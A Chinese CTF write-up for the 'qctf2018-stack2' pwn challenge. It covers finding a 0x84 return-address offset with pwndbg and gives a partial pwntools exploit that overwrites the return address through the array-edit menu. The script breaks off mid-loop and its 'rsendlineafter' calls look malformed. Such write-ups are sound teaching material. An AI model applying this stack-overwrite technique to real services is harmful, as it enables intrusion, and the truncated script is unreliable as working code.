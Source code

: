 

# qctf2018-stack2

偏移的寻找要GBD动调，IDA显示的不准确，应该是汇编上做了手脚

在第一次输入完成的时候080486D5这里打断点

还有就是在main的retn上打断点

这样就可以发现真正的偏移

断点1 0x080486D5

```c
EAX  0xffffcf68 ◂— 0xe0 #存放数组的地址在eax
 EBX  0x0
 ECX  0x1046a
 EDX  0xffffcf68 ◂— 0xe0
 EDI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 EBP  0xffffcfd8 ◂— 0x0
 ESP  0xffffcf30 —▸ 0xf7ffda74 —▸ 0xf7fd3470 —▸ 0xf7ffd918 ◂— 0x0
 EIP  0x80486d5 (main+261) ◂— 0x45830888

```

断点2

```c
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
*EAX  0x0
 EBX  0x0
*ECX  0xffffcff0 ◂— 0x1
*EDX  0xf7fb687c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
*EBP  0x0
*ESP  0xffffcfec —▸ 0xf7e1a647 (__libc_start_main+247) ◂— add    esp, 0x10
*EIP  0x80488f2 (main+802) ◂— 0x669066c3

```

结果得到偏移为0x84

```
pwndbg> distance 0xffffcfec 0xffffcf68
0xffffcfec->0xffffcf68 is -0x84 bytes (-0x21 words)
```

这个题的环境布置有问题的。。。原出题人已经说明了，后面照用这道题的都没有改环境，远程都是没有布置/bin/bash

不过没事，找sh字符串传入用ROPgadget搜字符串就行了

## exp

```python
#coding=utf8
from pwn import *

r = remote('192.168.40.10','21810')

rsendlineafter("How many numbers you have:", "1")
rsendlineafter("Give me your numbers", "1")
system_addr = [0x50, 0x84, 0x04, 0x08]
offset = 0x84
for i in range(4):
	rsendlineafter("5. exit", "3")
	rsendlineafter("change:", str(offset+i))
```